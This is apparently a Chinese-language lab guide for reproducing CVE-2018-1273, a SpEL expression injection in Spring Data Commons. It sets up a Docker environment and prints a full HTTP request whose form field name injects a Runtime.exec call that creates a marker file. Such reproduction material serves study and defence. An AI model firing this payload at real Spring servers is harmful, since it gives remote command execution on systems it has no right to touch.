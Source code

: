 # Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）

Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring Data下所有子项目共享的基础框架。Spring Data Commons 在2.0.5及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。

参考链接：

- https://pivotal.io/security/cve-2018-1273
- https://xz.aliyun.com/t/2269
- https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483666&idx=1&sn=91e3b2aab354c55e0677895c02fb068c

## 环境搭建

执行下面命令启动漏洞环境：

```
docker-compose up -d
```

稍等一会，环境启动后，访问`http://your-ip:8080/users`，将可以看到一个用户注册页面。

## 漏洞复现

参考前面链接中的Payload，在注册的时候抓包，并修改成如下数据包：

```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```

执行`docker-compose exec spring bash`进入容器中，可见成功创建`/tmp/success`，说明命令执行成功：

![](1.png)